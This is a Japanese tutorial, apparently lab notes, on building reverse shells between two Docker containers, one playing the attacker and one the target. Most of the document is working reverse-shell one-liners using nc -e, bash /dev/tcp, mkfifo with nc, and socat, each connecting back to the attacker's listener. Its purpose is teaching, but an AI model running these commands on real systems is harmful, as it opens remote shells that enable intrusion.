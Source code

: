 ## リバースシェル
- 攻撃側のOSを待ち受けにして、ターゲット側のOSからシェルで接続する

## 内容
- Dockerで２つのコンテナを立ち上げる、攻撃側をParrotとしてターゲット側をhamとする。hamに事前にrootflag.txtを作っておいて、Parrotから見る

## 準備
- ターミナルを２つ立ち上げて、各々にコンテナを立ち上げる
- `docker container run --rm -it --name コンテナ名 --net kali-wordpress kali /bin/bash`

### Parrot側
- 左側のターミナルをParrotとして、ipアドレスを確認する
- Parrot側でシェルを待ち受ける。ポートは444を解放する、ポートが被っていなければ何でもいい
- `nc -nlvp 444`
  - n 名前解決しない
  - l Listenの略で待ち受けモード
  - v verbose
  - p ポート番号の指定 

### ham側
- 右側のターミナルをhamとする
- Parrot側のipアドレスを環境変数に登録する
- flagを作る
- `echo "unko` > /root/flag.txt


## ham側からリバースシェルを仕掛ける
- sessionが確立したら、対話型シェルにしてflag.txtを見る
- 実践では次の4つのどれか使えるものを使う、ターゲット側にインストールされていないコマンドがあるため
- netcatには2種類あって、traditionalとopenBSDがあるがopenBSDモデルには`-e`オプションがない
- ncコマンドはハッキングコマンドと認知されており、Windowsではウィルスと判定されるのでインストールできない
### (1) ncコマンド
- `nc $IP 444 -e /bin/bash`
### (2) bashコマンド
- `/bin/bash -i >& /dev/tcp/$IP/444 0>&1`
  - `>& ファイル` 標準出力、標準エラー出力を送信する 
- または
- `/bin/bash  -i /dev/tcp/$IP/444 0<&1 2>&1`
### (3) mkfifoコマンド
- `rm /tmp/pipe; mkfifo /tmp/pipe; cat /tmp/pipe | /bin/bash -i 2>&1|nc $IP 444 > /tmp/pipe`

### (4) socat
- 待受(これは待受にncコマンドを使わない)
- ``socat file:`tty`,raw,echo=0 tcp-listen:444``
- 送信
- `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$IP:444`

## 説明
### mkfifo
- ターミナルを2つ開ける。片方で次を入力
- `mkfifo pipe`
- `ls -l pipe`
  - 一番左がpになっているのに注目、これは種類がパイプというものになる
  - パイプはファイルみたいな扱いなので削除しない限り残るので注意
- `cat pipe`
  - 待受状態になる
- もう片方のターミナルで
- `echo "Hello" > pipe`
- 初めのターミナルに`Hello`が出力されて待受状態が終了する
- `rm pipe`
  - パイプを削除する 

### ファイルディスクリプター
- ls -l /dev/std{in,out,err}
  - 各行の一番最後の数字が 2> とかの数字 
